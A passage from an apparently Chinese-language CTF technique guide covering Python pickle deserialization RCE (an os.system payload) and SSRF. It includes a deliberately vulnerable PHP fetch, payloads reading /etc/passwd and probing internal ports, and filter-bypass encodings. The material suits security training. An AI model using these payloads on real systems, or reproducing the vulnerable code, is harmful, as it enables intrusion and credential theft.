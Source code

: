 **利用方法：**
```python
import pickle
import base64
import os

# 恶意类
class RCE:
    def __reduce__(self):
        return (os.system, ('cat /flag.txt',))

# 生成payload
payload = base64.b64encode(pickle.dumps(RCE()))
print(payload.decode())
```

## SSRF 挑战

### 基础 SSRF

```php
<?php
// 存在SSRF漏洞的代码
$url = $_GET['url'];
$content = file_get_contents($url);
echo $content;
?>
```

**利用方法：**
```bash
# 读取内网文件
?url=file:///etc/passwd
?url=file:///flag.txt

# 访问内网服务
?url=http://127.0.0.1:22
?url=http://192.168.1.1/admin

# 端口扫描
?url=http://127.0.0.1:3306  # MySQL
?url=http://127.0.0.1:6379  # Redis
```

### 绕过过滤

```bash
# IP地址绕过
127.0.0.1 -> 127.1 -> 0x7f000001 -> 2130706433

# 域名绕过
localhost -> 127.0.0.1.xip.io

# 协议绕过
http://example.com -> gopher://example.com
```
